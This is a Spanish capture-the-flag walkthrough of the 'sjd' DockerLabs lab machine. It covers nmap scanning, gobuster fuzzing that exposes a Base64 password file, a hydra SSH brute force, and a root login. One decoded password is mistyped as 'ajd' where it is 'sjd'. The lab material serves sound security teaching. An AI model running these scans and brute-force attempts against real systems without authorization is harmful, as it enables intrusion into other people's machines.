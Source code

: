 ```yaml
---
icon: flag
---
```


# sjd DockerLabs (Very Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip sjd.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh sjd.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-27 04:34 EST
Nmap scan report for 172.17.0.2
Host is up (0.000032s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e3:6b:e1:c3:e0:14:74:3e:df:a3:f1:d8:64:69:80:50 (ECDSA)
|_  256 17:ce:1a:bb:ef:6d:9e:9d:c2:41:41:0b:0f:82:32:0d (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Reparaci\xC3\xB3n de Computadoras SJD
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.75 seconds
```

Vemos una pagina aparentemente normal, por lo que realizaremos un poco de `fuzzing`.

## Gobuster

```shell
gobuster dir -u http://<IP> -w <WORDLIST> -x html,php,txt -t 100 -k
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/descargas.html       (Status: 200) [Size: 4468]
/img                  (Status: 301) [Size: 306] [--> http://172.17.0.2/img/]
/index.php            (Status: 200) [Size: 6968]
/index1.html          (Status: 200) [Size: 10703]
/pass.txt             (Status: 200) [Size: 42]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos que hay un archivo bastante interesante llamado `/pass.txt` y si entramos en el veremos lo siguiente:

```
sjd c2pkCg==
admin YWRtaW4K
root MTk3MQo=
```

Vemos que pueden ser `3` posibles usuarios con sus contraseñas codificadas en `Base64` por lo que haremos lo siguiente:

```
sjd ajd
admin admin
root 1971
```

Asi se veria de forma decodificada.

Por lo que vamos a realizar `fuerza bruta` con la herramienta `hydra`.

## Hydra

> users.txt

```
sjd
admin
root
```

> pass.txt

```
sjd
admin
1971
```

Ahora con `hydra` haremos lo siguiente:

```shell
hydra -L users.txt -P pass.txt ssh://<IP> -t 64 -I
```

Info:

```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-01-27 05:16:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 9 tasks per 1 server, overall 9 tasks, 9 login tries (l:3/p:3), ~1 try per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: sjd   password: sjd
[22][ssh] host: 172.17.0.2   login: root   password: 1971
[22][ssh] host: 172.17.0.2   login: admin   password: admin
1 of 1 target successfully completed, 3 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-01-27 05:16:30
```

Vemos que los `3` usuarios funcionan, pero el que mas nos interesa es el de `root`, por lo que nos conectaremos de la siguiente forma:

## SSH

```shell
ssh root@<IP>
```

Metemos como contraseña `1971` y veremos que estamos dentro como el usuario `root`.

Info:

```
The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:VICRoK2N/Zw01oNp8yqG9D8m0AwQbBFQLtb/DY5APT0.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password: 
Welcome to Ubuntu 24.04.1 LTS (GNU/Linux 6.8.11-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
root@d70dc147f847:~# whoami
root
```

Por lo que ya habremos terminado la maquina.
